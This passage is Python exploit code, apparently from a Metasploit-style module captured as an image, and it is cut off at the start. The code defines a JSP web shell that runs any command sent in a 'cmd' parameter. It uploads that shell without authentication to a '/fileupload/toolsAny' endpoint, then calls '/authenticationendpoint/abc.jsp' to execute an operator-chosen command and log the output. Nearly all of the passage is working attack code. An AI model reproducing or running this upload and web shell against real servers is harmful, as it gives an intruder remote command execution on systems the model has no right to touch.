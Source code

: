 ```python
        return base_url

    def make_shell():
        shell = """<FORM>
        <INPUT name='cmd' type=text>
        <INPUT type=submit value='Run'>
    </FORM>
    <%@ page import="java.io.*" %>
        <%
        String cmd = request.getParameter("cmd");
        String output = "";
        if(cmd != null) {
            String s = null;
            try {
                Process p = Runtime.getRuntime().exec(cmd,null,null);
                BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
                while((s = sI.readLine()) != null) { output += s+"</br>"; }
            }  catch(IOException e) {   e.printStackTrace();   }
        }
    %>
            <pre><%=output %></pre>"""

        return shell

    def exploit(url,files,args):
        try:
            response = requests.post(url + f'/fileupload/toolsAny', files=files, verify=False)
            module.log('success upload abc.jsp',level='good')
        except Exception as e:        
            module.log(str(e), level='error')
            return False

        payload = {'cmd': 'ls'}
        url = url + "//authenticationendpoint/abc.jsp"

        try:
            r = requests.get('{}?cmd={}'.format(url, args['COMMAND']), verify=False)
            if not r and r.status_code == 200:
                return False
            if(r.text == ""):
                return False
            else:
                module.log('successfully execute cmd',level='good')
        except requests.exceptions.RequestException as e:
            module.log(str(e), level='error')
            return False
        module.log(str(r.text))
        '''
        try:
            r = requests.get(url,params = payload)
            module.log('success upload abc.jsp',level='good')
            if not r and r.status_code == 200:
                return False
            if(r.text == ""):
                return False
            else:
                module.log('successfully execute cmd',level='good')
        except:
            module.log(str(e), level='error')
            return False
        '''
        return True
```